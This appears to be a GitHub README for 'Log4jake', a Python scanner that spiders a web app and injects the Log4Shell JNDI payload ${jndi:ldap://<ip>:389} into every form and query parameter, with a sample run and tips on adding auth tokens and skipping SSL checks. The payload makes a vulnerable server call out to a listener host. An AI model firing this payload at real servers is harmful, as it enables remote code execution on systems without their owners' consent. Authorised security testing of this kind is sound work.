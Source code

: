 # Log4jake

Log4jake works by spidering a web application for GET/POST requests. It will then automatically execute the GET/POST requests, filling any discovered parameters with the ${jndi:ldap://<ip>:389} Log4j payload. Note that this tool is designed to work simultaneously with a NetCat listener.
  
If you want to test behind authentication, use the commented '#req.add_header('Authorization', "token_goes_here")' line to add the proper token. If you are experiencing SSL errors, use the commented '#context = ssl._create_unverified_context()' line in addition to 'resp = urllib.request.urlopen(req, context=context)'
  
  Syntax:
```
  └─$ python3 log4jake.py https://10.10.3.50
Remember to start NetCat Listener on port 389!!!
Enter IP address of your Listener: 10.10.3.4  

Starting Web Spider
-------------------

SPIDERING -> https://10.10.3.50/
SPIDERING -> https://10.10.3.50/signup
POST /signup
SPIDERING -> https://10.10.3.50/login
POST /login_exec
SPIDERING -> https://10.10.3.50/clients
SPIDERING -> https://10.10.3.50/admin/website
SPIDERING -> https://10.10.3.50/cdn-cgi/l/email-protection#9ef4f1f0defdf8ffedf7eafbedb0fdf1f3
SPIDERING -> https://10.10.3.50/forgotpassword
POST /mailer5

```
